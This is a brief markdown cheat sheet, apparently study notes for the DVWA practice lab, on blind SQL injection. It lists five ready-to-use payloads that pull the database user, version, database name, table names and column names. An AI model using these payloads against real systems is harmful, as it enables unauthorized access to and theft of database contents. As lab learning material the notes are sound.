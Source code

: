 # Error-Based Blind Query SQL Injection

Search Tag(s): #blind-sql-injection #dvwa

TODO: Prepare with enumeration

1. Extract the current user:

```sql
' OR IF(1=1, (SELECT user()), 0)#
```

2. Extract the database version:

```sql
' OR IF(1=1, (SELECT @@version), 0)#
```

3. Extract the current database name:

```sql
' OR IF(1=1, (SELECT database()), 0)#
```

4. Extract tables from the current database:

```sql
' OR IF(1=1, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), 0)#
```

5. Extract columns from a specific table:

```sql
' OR IF(1=1, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='<table_name>'), 0)#
```

---
## References

- [SQL Injection (Blind) [DVWA]](https://www.linkedin.com/pulse/sql-injection-blind-dvwa-nguyen-nguyen/)

- [Blind SQL Injection: An Expert’s Guide to Detect and Exploit](https://www.stationx.net/blind-sql-injection/)